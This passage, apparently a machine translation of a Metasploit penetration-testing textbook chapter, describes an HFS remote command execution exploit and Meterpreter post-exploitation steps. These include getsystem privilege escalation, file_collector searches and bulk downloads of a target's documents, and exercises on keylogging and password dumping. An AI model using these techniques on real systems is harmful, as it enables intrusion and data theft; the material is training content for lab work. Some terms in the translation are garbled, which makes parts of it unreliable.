

对一个流量计会话已打开！我们已成功访问目标机器。由于文件`ParserLib.pas`中的正则表达式不好，HFS 容易受到远程命令执行攻击，利用模块通过使用`%00`绕过过滤来利用 HFS 脚本命令。

# 第三阶段：维护通道/开采后/覆盖轨道

如果您属于执法行业，那么在初创企业中保持与目标公司的联系或保持后门是一个非常值得关注的领域。我们将在接下来的章节中讨论高级持久性机制。然而，当涉及到专业的渗透测试时，后期开发往往比维护访问更重要。后利用从被利用系统收集重要信息，破解管理员帐户哈希，窃取凭据，获取用户令牌，通过利用本地系统弱点获得特权访问，下载和上载文件，查看进程和应用程序，等等。

让我们执行并运行一些快速的攻击后攻击和脚本：



运行一些快速的攻击后命令，如`getuid`将找到被攻击进程的所有者用户，在我们的例子中是管理员。我们还可以通过发出`getpid`命令来查看被利用进程的进程 ID。如果您需要深入了解网络，最理想的攻击后功能之一是了解 ARP 的详细信息。在 MeterMeter 中，您可以通过发出前面屏幕截图中所示的`arp`命令来查找 ARP 详细信息。

如果被利用进程的所有者是具有管理员权限的用户，我们可以使用`getsystem`命令将权限级别升级到系统级别。

接下来，让我们从目标获取文件。然而，我们不是在讨论一般的单文件搜索和下载。让我们使用`file_collector`后期开发模块做一些开箱即用的事情。我们可以做的是扫描目标上的某些类型的文件，并将其自动下载到我们的系统中，如以下屏幕截图所示：


在前面的屏幕截图中，我们在受损系统的`Users`目录上运行了一次扫描（通过提供带有目录路径的`-d`开关），以扫描扩展名为`.doc`和`.pptx`的所有文件（使用`-f`过滤器开关，后跟搜索表达式）。我们使用`-r`开关进行递归搜索，`-o`将找到的文件路径输出到`files`文件。我们可以在输出中看到有两个文件。此外，搜索表达式`*.doc|*.pptx`表示扩展名为`.doc`或`.pptx`的所有文件，`|`是 or 运算符。

让我们通过发出命令下载找到的文件，如以下屏幕截图所示：


我们刚刚提供了一个`-i`开关，后面跟着文件`files`，它包含目标上所有文件的完整路径。但是，我们还提供了一个`-l`开关，用于指定系统上下载文件的目录。从前面的屏幕截图可以看出，我们成功地将所有文件从目标下载到了我们的机器上。

在专业渗透测试环境中覆盖您的轨迹可能不合适，因为大多数蓝色团队使用渗透测试中生成的日志来识别问题和模式，或者编写 ID/IPS 签名。

# 总结和练习

在本章中，我们学习了 Metasploit 的基础知识和渗透测试的各个阶段。我们学习了`Metasploit`命令的各种语法和语义。我们看到了如何初始化数据库。我们使用 Metasploit 执行了基本扫描，并成功利用了扫描的服务。此外，我们还看到了一些基本的开发后模块，这些模块有助于从目标获取重要信息。

如果您按照正确的步骤操作，本章已为您成功地回答以下问题做好准备：

*   什么是 Metasploit 框架？
*   如何使用 Metasploit 执行端口扫描？
*   如何使用 Metasploit 执行横幅抓取？
*   Metasploit 是如何利用易受攻击的软件进行攻击的？
*   什么是后期开发，如何使用 Metasploit 执行？

对于进一步的自定步调练习，您可以尝试以下练习：

1.  在 Metasploit 中找到一个模块，该模块可以对端口 21 上运行的服务进行指纹识别。
2.  尝试运行漏洞攻击后模块，以便记录密钥、拍摄屏幕照片以及为其他用户转储密码。
3.  下载并运行 Metasploitable 2 并利用 FTP 模块。

在[第 2 章](2.html#VF2I0-a731d733dba14ccabae643b74e2c8790)*识别和扫描**目标*中，我们将深入了解 Metasploit 的扫描特征。我们将研究要扫描的各种类型的服务，我们还将研究为服务扫描定制已有的模块。